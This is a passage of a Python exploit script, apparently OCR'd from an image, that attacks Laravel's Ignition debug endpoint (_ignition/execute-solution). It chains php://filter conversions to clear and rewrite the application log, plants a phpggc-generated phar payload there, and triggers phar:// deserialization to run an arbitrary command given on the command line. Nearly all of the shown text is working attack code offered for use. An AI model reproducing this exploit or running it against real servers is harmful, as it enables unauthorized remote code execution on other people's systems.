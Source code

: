 ```python
    os.system('rm -rf payload.txt')
    return payload


def main():

    if len(sys.argv) < 4:
        print('Usage:  %s url path-log command\n'%(sys.argv[0]))
        print('\tEx: %s http(s)://pwnme.me:8000 /var/www/html/laravel/storage/logs/laravel.log \'id\''%(sys.argv[0]))
        exit(1)

    if not os.path.isfile('./phpggc/phpggc'):
        print('Phpggc not found!')
        print('Run command: git clone https://github.com/ambionics/phpggc.git')
        os.system('git clone https://github.com/ambionics/phpggc.git')

    url = sys.argv[1]
    path_log = sys.argv[2]
    command = sys.argv[3]
    padding = 0

    payload = generate_payload(command, padding)
    if not payload:
        print('Generate payload error!')
        exit(1)

    if 'http' not in url and 'https' not in url:
        url = 'http'+url
    else:
        url = url+'/_ignition/execute-solution'

    print('\nExploit...')
    clear_log(url, 'php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s'%(path_log))
    create_payload(url, 'AA')
    create_payload(url, payload)
    while (not convert(url, 'php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=%s'%(path_log))):
        clear_log(url, 'php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=%s'%(path_log))
        create_payload(url, 'AA')
        padding += 1
        payload = generate_payload(command, padding)
        create_payload(url, payload)

    exploited(url, 'phar://%s'%(path_log))

if __name__ == '__main__':
    main()
```
